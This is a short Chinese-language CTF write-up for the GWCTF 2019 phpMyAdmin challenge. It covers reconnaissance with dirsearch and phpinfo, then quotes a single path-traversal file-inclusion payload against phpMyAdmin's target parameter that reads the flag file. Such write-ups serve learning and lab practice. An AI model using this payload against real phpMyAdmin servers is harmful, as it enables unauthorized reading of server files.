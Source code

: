# [GWCTF 2019]我有一个数据库
![](<./img/Pasted image 20221125210719.png>)

---
首页长这样

![](<./img/Pasted image 20221125210651.png>)

`dirsearch`扫到了`robots.txt`

![](<./img/Pasted image 20221125220315.png>)

![](<./img/Pasted image 20221125211153.png>)

访问`/phpinfo.php`

![](<./img/Pasted image 20221125211604.png>)

宁就是`webmaster`嘛www

既然他说和数据库有关，那就记一下叭（虽然不知道有什么用）

![](<./img/Pasted image 20221125211941.png>)

---
还有一个`phpmyadmin`扫到了，不知道是啥

![](<./img/Pasted image 20221125220518.png>)

emmm没有思路，看看版本号蛮可疑的

![](<./img/Pasted image 20221125220708.png>)

![](<./img/Pasted image 20221125221044.png>)

![](<./img/Pasted image 20221125221327.png>)

看不懂，但能抄.jpg（脚本小子实锤）

```php
/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../flag
```
![](<./img/Pasted image 20221125222248.png>)
